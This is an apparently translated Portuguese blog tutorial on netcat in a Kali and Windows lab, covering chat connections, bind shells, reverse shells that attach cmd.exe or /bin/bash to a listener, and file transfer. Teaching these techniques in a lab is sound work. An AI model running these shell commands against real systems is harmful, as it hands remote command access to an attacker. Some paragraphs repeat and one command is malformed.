







NETCAT
n = somente endereço IP numérico (sem DNS)
l = ouvir por conexões de entrada
v = verbose (detalhado)
p = número da porta local
nc -nlvp 4444
Abra um novo prompt de comando na sua VM do Windows e conecte à porta aberta na sua VM do Kali usando:
ncat -nv Kali-IP 4444
A saída mostra que agora conectamos com sucesso as duas máquinas. Isso é essencialmente agora um serviço de mensagens simples onde você pode enviar mensagens entre as máquinas. Você pode ver pelas saídas abaixo que uma mensagem enviada da máquina Windows foi recebida pela máquina Kali e vice-versa.
Use Ctrl + C em qualquer uma das máquinas para fechar a conexão.
Windows server
Basicamente, é o mesmo método que o acima, no entanto, você usa:
ncat -nlvp 4444 para ouvir conexões na VM do Windows.
nc -nv4444 para se conectar a 👆 a partir da sua VM do Kali.
Usando o netcat para escutar na porta 4444 da VM do Windows
Estabelecendo uma conexão e enviando mensagens entre as duas VMs
Bind shells
Agora que você conectou com sucesso as duas máquinas virtuais, vamos dar uma olhada nas bind shells. Para configurar uma bind shells, basicamente precisamos anexar uma shell a uma porta em uma máquina para que, quando uma conexão for estabelecida, a shell possa ser acessada na outra máquina e comandos possam ser executados.
NOTA: Para esta etapa funcionar, você precisará acessar as configurações do firewall na VM do Windows e desativar o Firewall. Obviamente, isso não é a coisa mais segura a se fazer, então lembre-se de ligar o firewall novamente quando terminar. Se você não desativar o Firewall, não conseguirá se conectar à VM do Windows. Tente alternar as configurações do firewall durante essas tarefas para ver o que funciona e o que não funciona, ajudando a entender o que está acontecendo.
Windows bind shell
Para iniciar uma bind shell no Windows, precisamos configurar um ouvinte com o executável cmd.exe (Prompt de Comando do Windows) anexado a ele. Para especificar o arquivo a ser executado, podemos usar:
e = programa a ser executado após a opção de conexão. Sintaxe: -e
c = usar /bin/sh para executar. Sintaxe: -c
ncat -nlvp 4444 -e cmd.exe
Agora que você vinculou o shell à porta, conecte-se a ele usando:
nc -nv IP-do-Windows 4444
Assim que uma conexão for estabelecida, a VM do Kali terá acesso à shell da VM do Windows.

Você pode ver que a VM do Kali agora tem acesso à shell do Windows a partir da saída de whoami, mudando de "parallels" para "theobridgembe32/theo".
Kali Bind Shell
No Kali, o método de bind shells difere um pouco do acima, onde você usará -c /bin/bash em vez de -e cmd.exe. As opções -e e -c podem ser usadas de forma intercambiável, no entanto, acredito que esta seja a utilização correta. Eu vou misturar e combinar essas opções ao longo deste blog para mostrar que ambas funcionam. Use whoami para confirmar o shell de ligação bem-sucedido:

Reverse shells
Um shell reverso ocorre quando a shell executável é enviada do host para a máquina que está ouvindo, em vez de ser vinculada à porta e executada após a conexão. Isso pode ser usado quando há um Firewall bloqueando uma conexão para uma bind shells e permite que a máquina atrás do firewall envie acesso à shell para a máquina que está ouvindo fora do firewall.
Windows reverse shell
nc -nlvp 4444
Em seguida, conecte-se à porta de escuta e envie a shell para ela usando:
ncat Kali-IP 4444 -c cmd.exe
Da mesma forma que -c cmd.exe pode ser vinculado a uma porta, também pode ser usado de forma reversa e enviado para a máquina ouvinte, daí o termo "shell reverso". Isso significa que uma shell, mesmo estando atrás de um firewall, pode ser enviada para uma máquina externa e ser executada ao se conectar para obter acesso para executar comandos.

Você pode ver pela saída que uma vez que a conexão é feita, o shell reverso é executado pelo ouvinte.
Kali reverse shell
Para que isso funcione, mais uma vez você precisará desativar o firewall na VM do Windows (ou criar uma regra que permita essa conexão). Experimente com e sem o firewall para ver o que acontece.
Configure o ouvinte no Windows:
ncat -nlvp 4444
Conecte-se ao ouvinte e envie o shell reverso. Novamente, em vez de usar -c cmd.exe, você precisará usar -e /bin/bash:
nc -nv Windows-IP 4444 -e /bin/bash
 Como você pode ver na saída, o shell reverso foi executado com sucesso na máquina receptora e a máquina virtual do Windows tem acesso à linha de comando do Kali.
File transfers
Windows file transfer
Você pode usar o Netcat para transferir arquivos entre as duas VMs. Comece criando um arquivo para enviar da VM do Windows echo "password" > password.txt
Configure o ouvinte do Kali e especifique onde salvar o arquivo transferido.
nc -nlvp 4444 > passwordWindows.txt
Envie o arquivo da máquina Windows usando o arquivo como entrada para a conexão.
ncat -nv Kali-IP 4444 < password.txt
Quando a conexão for estabelecida, o conteúdo do arquivo é salvo no arquivo especificado pelo ouvinte.
 Você pode ver na saída que o arquivo foi transferido com sucesso. Na VM Kali, parece que a conexão acabou de ser encerrada, no entanto, a transferência de arquivo bem-sucedida pode ser confirmada lendo o conteúdo do arquivo transferido com a extensão cat
Você pode ver na saída que o arquivo foi transferido com sucesso. Na VM Kali, parece que a conexão acabou de ser encerrada, no entanto, a transferência de arquivo bem-sucedida pode ser confirmada lendo o conteúdo do arquivo transferido com a extensão cat
Kali file transfer
Isso é praticamente o mesmo que enviar arquivos da VM do Windows. A única diferença é que você precisará interromper manualmente a conexão usando Ctrl + C antes de ler o arquivo:
 Como você pode ver, o processo de envio de arquivos é bastante semelhante em qualquer sistema operacional. Isso também pode ser feito ao contrário, onde o arquivo é enviado da máquina que está escutando para que a máquina que está conectando receba o arquivo. Isto é essencialmente como vincular um arquivo em vez de um shell.
Como você pode ver, o processo de envio de arquivos é bastante semelhante em qualquer sistema operacional. Isso também pode ser feito ao contrário, onde o arquivo é enviado da máquina que está escutando para que a máquina que está conectando receba o arquivo. Isto é essencialmente como vincular um arquivo em vez de um shell.